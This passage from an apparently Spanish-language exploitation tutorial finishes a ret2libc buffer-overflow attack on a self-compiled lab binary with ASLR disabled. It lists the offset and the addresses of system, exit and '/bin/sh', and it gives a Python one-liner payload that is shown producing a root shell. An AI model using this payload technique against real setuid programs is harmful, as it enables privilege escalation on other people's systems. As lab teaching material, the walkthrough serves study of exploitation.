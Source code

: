 ### 4. Payload Final

Ya como paso final solo debemos unir todos los datos que hemos ido recolectando en los pasos anteriores, tomando en cuenta que usaremos `ret2libc attack`.

- **Offset** = 76 `(multiplicar por "A").`
- **Dirección de system** = 0xb7e53310 `(debe estar en formato Little-Endian)`
- **Dirección de exit** = 0xb7e46260 `(debe estar en formato Little-Endian)`
- **Dirección de /bin/sh** = 0xb7f75d4c `(debe estar en formato Little-Endian)`

```python
payload = offset + system + exit + /bin/sh
$(python -c 'print "A"*76 + "\x10\x33\xe5\xb7" + "\x60\x62\xe4\xb7" + "\x4c\x5d\xf7\xb7"')
```

Si ejecutamos nuestro payload desde `gdb` podemos observar que en efecto nos devuelve nuestra shell, pero en este caso como el usuario con pocos privilegios.

![Shell desde peda](/assets/images/shellPedaSinAslr.png)

Debemos ejecutar directamente el binario que creamos `(buff)` con nuestro payload para obtener nuestra shell como `root`.

![Shell sin ASLR](/assets/images/rootShellSinAslr.png)
	
## Recomendación

En la imagen anterior podemos observar que una vez ejecutamos el binario junto con nuestro payload, recibimos nuestra shell como root, pero también podemos ver en la parte inferior que pasándole un script en python, obtenemos el mismo resultado, de hecho este script lo que nos permite es evitarnos pasar manualmente nuestra dirección de memoria a formato **Little-Endian**, ya que esto puede ocasionar errores.
